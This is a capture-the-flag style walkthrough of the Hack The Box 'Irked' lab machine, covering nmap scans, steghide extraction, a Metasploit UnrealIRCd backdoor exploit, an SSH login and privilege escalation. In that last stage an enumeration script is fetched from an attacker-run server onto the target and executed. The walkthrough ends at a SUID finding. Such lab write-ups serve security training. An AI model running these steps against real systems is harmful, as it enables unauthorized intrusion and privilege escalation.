# Hack the box - Irked


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Linux</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.117</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2018 Nov 17</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.117
```



We can see that machine has web server and IRC service running.

## Web exploration

On the web page there is strange picture with text:



It could have hidden message inside so let's try to download it:



```
wget http://10.10.10.117/irked.jpg
```



## Image checking

First of all, we can check potential string contents inside:

```
strings -n 7 irkled.jpg
```



Current image strings indicate that it uses steghide. We have to investigate further to get passphrase. 

## Additional scans

Since server uses IRC, it could have more ports running so it is good idea to rescan with nmap for aditional ports:

```
nmap -sC -sV -p- -T4 -oA nmapall 10.10.10.117
```



There are 4 more ports found that indicate that machine uses unrealIRCd. Time to check for potential vulnerabilities:

```
searchsploit unrealIRCd
```



One of results is available on metasploit framework. 

## Exploitation

Time to check if exploitation works:

```
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set rhosts 10.10.10.117
exploit
```



On port 6667 exploit does not work. We could try it on another port:

```
set RPORT 8067
exploit
```



We have success with port 8067.

## Looking for sensitive data

We have to upgrade our tty and identify users:



There is user named djmardov. Maybe he has some sensitive data to share:



We go passphrase for our downloaded image file. Time to crack it:

```
steghide extract -sf irked.jpg --passphrase UPupDOWNdownLRlrBAbaSSss
```



The image have password inside. Try to ssh with it:

```
ssh djmardov@10.10.10.117
```



First user flag :)

## Privilege escalation

For gathering information we could use linux enumeration script:

Local:
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
sudo python -m http.server 80
```

Target:
```
wget http://10.10.x.x/LinEnum.sh
```



```
chmod +x LinEnum.sh
./LinEnum.sh
```



We found interesting SUID file that we could exploit.



There is file missing from this script. We can use it to our own advantage:

